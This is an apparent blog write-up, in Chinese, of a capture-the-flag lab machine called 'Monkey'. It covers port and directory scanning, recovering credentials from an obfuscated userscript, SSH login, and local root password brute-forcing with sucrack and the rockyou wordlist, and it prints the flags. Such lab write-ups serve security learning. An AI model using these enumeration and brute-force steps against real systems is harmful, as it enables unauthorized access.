








# Monkey


# Monkey

## 端口扫描

```python
└─# nmap -sV -A 192.168.56.101
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-12-01 16:23 CST
Nmap scan report for 192.168.56.101
Host is up (0.00055s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 f6:a3:b6:78:c4:62:af:44:bb:1a:a0:0c:08:6b:98:f7 (RSA)
|   256 bb:e8:a2:31:d4:05:a9:c9:31:ff:62:f6:32:84:21:9d (ECDSA)
|_  256 3b:ae:34:64:4f:a5:75:b9:4a:b9:81:f9:89:76:99:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: \xE6\xB2\xB9\xE7\x8C\xB4\xE6\x8F\x92\xE4\xBB\xB6\xE4\xBB\x8B\xE7\xBB\x8D
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 08:00:27:16:40:04 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.55 ms 192.168.56.101

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.71 seconds
```

## 80 端口信息收集

发现 80 端口，访问



查看一下页面源代码发现一个域名 plugin2.dsz 



‍

‍

dirsearch 扫描一下目录

> 我当时做的时候明明扫到了  bak.zip，但是发现下载是一个空文件，后面发现是浏览器的问题，我换一个浏览器下载就没问题，好奇怪

```python
└─# dirsearch -u http://192.168.56.101/ -e php,html,txt,zip,bak,dsz,js
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, html, txt, zip, bak, dsz, js | HTTP method: GET | Threads: 25 | Wordlist size: 12505

Output File: /root/reports/http_192.168.56.101/__25-12-01_16-36-46.txt

Target: http://192.168.56.101/

[16:36:46] Starting: 
[16:36:46] 200 -    2KB - /bak.zip
[16:36:48] 403 -  279B  - /.ht_wsr.txt
[16:36:48] 403 -  279B  - /.htaccess.bak1
[16:36:48] 403 -  279B  - /.htaccess.orig
[16:36:48] 403 -  279B  - /.htaccess.sample
[16:36:48] 403 -  279B  - /.htaccess.save
[16:36:48] 403 -  279B  - /.htaccess_extra
[16:36:48] 403 -  279B  - /.htaccess_orig
[16:36:48] 403 -  279B  - /.htaccess_sc
[16:36:48] 403 -  279B  - /.htaccessOLD
[16:36:48] 403 -  279B  - /.htaccessBAK
[16:36:49] 403 -  279B  - /.htaccessOLD2
[16:36:49] 403 -  279B  - /.htm
[16:36:49] 403 -  279B  - /.html
[16:36:49] 403 -  279B  - /.htpasswds
[16:36:49] 403 -  279B  - /.httr-oauth
[16:36:49] 403 -  279B  - /.htpasswd_test
[16:36:50] 403 -  279B  - /.php
[16:37:32] 403 -  279B  - /server-status
[16:37:32] 403 -  279B  - /server-status/
```

‍

看群主（云淡_风清）说是对 dirsearch 做了限制扫描不出来，可以用其他的扫描器扫出来

```python
└─# gobuster dir -u http://192.168.56.101 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,zip,bak,js
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.101
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Extensions:              php,html,txt,zip,bak,js
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 10918]
/bak.zip              (Status: 200) [Size: 2348]
/monkey.js            (Status: 200) [Size: 7293]
/server-status        (Status: 403) [Size: 279]
Progress: 814197 / 1543906 (52.74%)^C
```

bak.zip 里面就是 monkey.js，访问一下，发现应该是一个油猴插件，但是代码进过混淆了，审计一下最后能发现最后执行了主要是 `_0x8q9r();`​，并且函数中应该限制了必须是 `plugin2.dsz` 是这个域名。

所以直接在浏览器的控制台就能运行这段代码。前提就是要先修改一下 hosts 文件添加如下：在  `C:\Windows\System32\drivers\etc` 下

> 192.168.56.101 plugin2.dsz

‍

‍



直接在终端执行代码就能弹窗一个用户



先使用 ssh 登录一下

```python
ssh segfault@192.168.56.101
segfaultNo1
```



flag：flag{user-055967acf4caa06c3867b03a337fe29c}

## 提权

检查 sudo 权限

```python
segfault@Monkey:~$ sudo -l
Matching Defaults entries for segfault on Monkey:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User segfault may run the following commands on Monkey:
    (ALL) NOPASSWD: /opt/monkey/bin/monkey
```

发现是一个猴子编程语言，但是好像提不权



先查看一下所有的隐藏文件

```python
find / -name ".*" -type f 2>/dev/null
```



发现有个提示 sucrack ，是一款本地 root 账户的密码破解的工具

```python
segfault@Monkey:~$ cat /usr/local/bin/.hint
let s = "sucrack"
s
```



现在攻击机上起一个 http 服务，用于靶机下载密码字典

```python
└─# python3 -m http.server 9000
Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...
192.168.56.101 - - [02/Dec/2025 08:28:04] "GET /rockyou.txt HTTP/1.1" 200 -
```

然后靶机在下载一下即可

```python
segfault@Monkey:~$ wget http://192.168.56.102:9000/rockyou.txt
--2025-12-01 19:28:02--  http://192.168.56.102:9000/rockyou.txt
Connecting to 192.168.56.102:9000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 139921497 (133M) [text/plain]
Saving to: ‘rockyou.txt’

rockyou.txt                           100%[========================================================================>] 133.44M  46.6MB/s    in 2.9s    

2025-12-01 19:28:05 (46.6 MB/s) - ‘rockyou.txt’ saved [139921497/139921497]
```

然后执行一下爆破命令发现很快就找到了 root 的密码

```python
segfault@Monkey:~$ sucrack -a -w 20 -s 10 -u root -rl AFLafld rockyou.txt 
-a option not available. Use the --enable-statistics configure flag
-s option not available. Use the --enable-statistics configure flag
password is: 123455
```

爆破完成后发现输入东西没有回显，输入 reset 重置终端

> **Linux reset命令介绍：**
>
> `reset`​命令在Linux系统中用于初始化终端。这在一个程序死掉后留下一个异常状态的终端时非常有用。注意，你可能需要键入`reset`命令来使终端恢复正常工作，因为回车键可能在异常状态下不再工作

然后再 su root

```python
segfault@Monkey:~$ su root
Password: 
root@Monkey:/home/segfault# 
```

```python
root@Monkey:/home/segfault# cat /root/root.txt
flag{root-b2f6e98d8658a3697639943f007dd181}
```

flag：flag{root-b2f6e98d8658a3697639943f007dd181}


---

> 作者: [lpppp](/)  
> URL: https://lpppp.xyz/posts/monkey/  

